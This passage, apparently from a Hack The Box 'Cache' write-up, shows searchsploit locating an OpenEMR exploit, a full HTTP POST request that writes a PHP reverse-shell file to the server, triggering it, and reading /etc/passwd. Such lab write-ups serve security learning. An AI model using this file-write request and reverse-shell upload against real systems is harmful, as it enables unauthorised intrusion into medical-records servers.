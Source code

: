Next, let's use `searchsploit` to see if we can find anything that might give us a foothold into the server itself.

We manage to find an exploit. 

![2bfd83ede2578d513caa2c4ecd71d157.png](/images/htb-cache/34068549f308480e89aa278054beb302.png)

This exploit uses a malicious POST request to read/write files to the server. Using Burpsuite, we can send the POST request to the server to upload a PHP reverse shell. 

```http
POST /portal/import_template.php HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: OpenEMR=YOUROPENEMRCOOKIEHERE; PHPSESSID=YOURPHPSESSIDCOOKIEHERE
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

mode=save&docid=lulz.php&content=<?php INSERTPHPREVERSESHELLHERE ?>
```

After sending the above request using Burpsuite's repeater, we can navigate to `http://hms.htb/portal/lulz.php` to trigger the reverse shell. 

Let's start off with a bit of enumeration. 

![284660e6861fb09fde035c7cfd8eddd2.png](/images/htb-cache/47c233f512b9430a9132e80a31b5046b.png)


```bash
www-data@cache:/$ cat /etc/passwd
<snip>
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
memcache:x:111:114:Memcached,,,:/nonexistent:/bin/false
```
